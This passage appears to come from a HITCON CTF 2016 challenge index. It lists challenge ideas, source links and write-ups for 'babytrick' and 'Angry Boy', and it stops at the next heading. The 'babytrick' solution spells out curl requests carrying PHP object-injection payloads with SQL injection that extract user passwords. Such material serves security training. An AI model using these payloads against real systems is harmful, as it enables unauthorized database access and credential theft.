 #### Source Code

* [here](hitcon-ctf-2016/babytrick)

#### Solution

```bash
# get password
curl http://1.2.3.4/
?data=O:6:"HITCON":3:{s:14:"%00HITCON%00method";s:4:"show";s:12:"%00HITCON%00args";a:1:{i:0;s:39:"'union%20select%201,2,password%20from%20users%23";}}

# get flag
curl http://1.2.3.4/
?data=O:6:"HITCON":2:{s:14:"%00HITCON%00method";s:5:"login";s:12:"%00HITCON%00args";a:2:{i:0;s:7:"orÄnge";i:1;s:13:"babytrick1234";}}
```

#### Write Ups

* [Hitcon 2016 – Baby Trick](http://0xecute.com/index.php/2016/10/10/baby-trick/)
* [Hello HitCon 2016 CTF](https://ctfs.ghost.io/hello-hitcon-2016-ctf/#babytrick)  
* [hitcon2016 web writeup](http://lorexxar.cn/2016/10/10/hitcon2016/)




## **Angry Boy**

Difficulty: **★★☆**  
Solved: **43 / 1024**  
Tag: **GrayBox**, **Java**

#### Idea

* `new String(new byte[] {1, -1, 1, -1})` will output `01EFBFBD01EFBFBD`, not `01FF01FF`
* [When ‘EFBFBD’ And Friends Come Knocking: Observations Of Byte Array To String Conversions](https://blog.gdssecurity.com/labs/2015/2/18/when-efbfbd-and-friends-come-knocking-observations-of-byte-a.html)

#### Source Code

* [here](hitcon-ctf-2016/angry%20boy)

#### Solution

* [exploit.py](hitcon-ctf-2016/angry%20boy/exploit.py)
* [decrpt.py](hitcon-ctf-2016/angry%20boy/decrypt.py)

#### Write Ups

* [Angry Boy - Web 300 Problem](https://github.com/pwning/public-writeup/tree/master/hitcon2016/web300-angryboy)


## **Angry Seam**
